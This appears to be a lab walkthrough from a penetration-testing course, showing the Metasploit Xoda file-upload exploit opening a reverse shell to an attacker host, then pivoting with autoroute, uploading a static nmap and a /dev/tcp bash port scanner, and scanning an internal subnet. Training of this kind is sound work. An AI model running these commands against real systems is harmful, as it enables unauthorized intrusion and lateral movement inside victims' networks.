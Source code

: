# 📦 Metasploit - Xoda File Upload Exploit & Post-Exploitation

This walkthrough shows how to exploit a vulnerable **Xoda web application** with Metasploit, gain a shell, pivot into an internal network, and use custom port scanning tools.

---

## 🎯 Steps Overview
1. Exploit the vulnerable web app (Xoda File Upload)  
2. Gain shell access  
3. Add routes for pivoting  
4. Scan internal network with Metasploit & custom tools  
5. Upload & execute static binaries  

---

## 1. Exploit Xoda File Upload
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```

📸 **Sample Output:**
```
[*] Started reverse TCP handler on 192.63.4.2:4444
[*] Sending exploit...
[*] Command shell session 1 opened
```

🔍 **Interpretation:**
- Exploit uploads a malicious file to the vulnerable app.  
- Reverse shell successfully opened (Session 1).  

---

## 2. Interact with Shell
```bash
shell
ip addr
```

📸 **Sample Output:**
```
inet 192.180.108.2/24 brd 192.180.108.255 scope global eth0
```

🔍 **Interpretation:**
- Target machine has IP `192.180.108.2`.  
- Confirms internal network presence.  

---

## 3. Add Route for Pivoting
```bash
run autoroute -s 192.180.108.2
```

📸 **Sample Output:**
```
Route added to subnet 192.180.108.0/255.255.255.0
```

🔍 **Interpretation:**
- Traffic to the internal subnet will now be routed through the compromised host.  
- Enables pivoting deeper into the network.  

---

## 4. TCP Port Scan from Metasploit
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set VERBOSE false
set PORTS 1-1000
exploit
```

📸 **Sample Output:**
```
Discovered open port 21/tcp on 192.180.108.3
Discovered open port 22/tcp on 192.180.108.3
Discovered open port 80/tcp on 192.180.108.3
```

🔍 **Interpretation:**
- Found FTP(21), SSH (22) and HTTP (80) open.  
- Indicates live services inside the pivoted network.  

---

## 5. Locate Static Nmap Binary
```bash
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

📸 **Sample Output:**
```
-rwxr-xr-x 1 root root 2500000 Apr 10  nmap
nmap: ELF 64-bit LSB executable, statically linked
```

🔍 **Interpretation:**
- Found precompiled static **Nmap binary**.  
- Useful when target does not have Nmap installed.  

---

## 6. Custom Bash Port Scanner
```bash
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

📸 **Sample Output:**
```
port 21 is open
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Simple Bash script to scan ports without Nmap.  
- Uses `/dev/tcp` to test connectivity.  

---

## 7. Interact with Session
```bash
sessions -i 1
```

📌 Goes back into the compromised session to continue post-exploitation.  

---

## 8. Upload Tools
```bash
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

📸 **Sample Output:**
```
[*] Uploading nmap -> /tmp/nmap
[*] Uploading bash-port-scanner.sh -> /tmp/bash-port-scanner.sh
```

🔍 **Interpretation:**
- Both Nmap binary and custom scanner uploaded to `/tmp/` on target.  

---

## 9. Execute Tools on Target
```bash
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```

📸 **Sample Output:**
```
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Verified the Bash script works from inside the compromised target.  

---

## 10. Run Nmap on Target
```bash
./nmap -p- 192.180.108.3
```

📸 **Sample Output:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
```

🔍 **Interpretation:**
- Full Nmap scan shows ports 22, 80, and 443 are open.  
- Confirms target services for further exploitation.  
